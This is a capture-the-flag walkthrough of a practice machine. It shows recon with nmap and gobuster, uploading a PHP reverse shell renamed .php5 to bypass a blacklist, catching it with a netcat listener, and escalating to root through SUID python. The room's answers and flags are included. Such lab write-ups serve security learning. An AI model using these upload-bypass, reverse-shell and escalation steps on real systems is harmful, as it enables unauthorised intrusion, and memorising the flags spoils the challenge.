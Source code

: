 # Task 2 - Reconnaissance

### Scan the machine, how many ports are open?
sudo nmap -sV -sC -T5 -p- 10.10.133.170 -oN ~/Github/RootMeCTF/nmapscan.md
-sV - scans for the versions of the services running on the open ports
-sC - scans using the default scripts in nmap
-T5 - the fastest possible scan for nmap
-oN - outputs the results to a file

From our nmap scan we can see there are 2 ports open 22,80
Answer: 2

### What version of Apache is running?

Since we used the -sV option in our nmap scan we can see the Apache version is 2.4.29

Answer: 2.4.29

### What service is running on port 22?

Port 22 is the port for SSH and we can verify that using our nmap scan
Answer: ssh

### Find directories on the web server using the GoBuster tool.

I have pasted the command I used for this question
gobuster dir -u http://10.10.225.181 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

### What is the hidden directory?

Looking at the results from our gobuster scan we have uploads, panel, server-status that look interesting. Uploads did not have any information, panel has a page where we can upload files to the machine so that is the answer.
Answer: /panel/

# Getting a shell

### user.txt

Since we are able to upload files I grabbed a php reverse shell from pentestmonkey.
https://github.com/pentestmonkey/php-reverse-shell

After changing the IP address to IP of my VPN connection and the port we want to listen on we can try to upload the file.

The file type is not allowed on the site. After doing some research I can find there are file type work arounds for file type blacklisting. .php5 runs as a php file in Apache so we can try that one.

Afer changing the file to php-reverse-shell.php5 it does successfully upload to the /panel page

now we want to set up a netcat listener with nc -lvnp 4444

Going back to the uploads page we can go to the page http://IP/uploads/php-reverse-shell.php5

This successfully gets us a shell, to stablilize the shell we can use python to spawn a bash shell python -c 'import pty; pty.spawn("/bin/bash")'

we can find the user.txt with the find command: find / -type f -name user.txt

/ - to start the search at the base directory
-type - the type we are searching for "f" for file
-name - the name of the file

scrolling up we are able to find the user.txt in the /var/www directory

user.txt: THM{y0u_g0t_a_sh3ll}

# Privilege escalation

### Search for files with SUID permission, which file is weird?

I did some research on how to find files with SUID permissions and came up with the following command

find / -user root -perm -4000 2>/dev/null

/ - starting in the base directory
-user - the user that we are searching for
-perm - -4000 the SUID value is set to 4
2>/dev/null - all errors are sent to the /dev/null file so we don't see them

we can see /usr/bin/python is one of the files we can use

### Find a form to escalate your privileges.

I went to search for an exploit on GTFOBins and in the python section there is an exploit for SUID

SUID:

sudo install -m =xs $(which python) .
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Since we don't have the sudo password for our user we can skip the first command

For the second command we don't have to add the ./ at the beginning. After running the second command we get another shell. Running id we can see we are root.

Now we can go to the /root directory, and we can find the root.txt

root.txt: THM{pr1v1l3g3_3sc4l4t10n}

For this machine we were able to use a SetUID exploit through python. Once we had a shell we were able to spawn an escalated shell and find the root flag.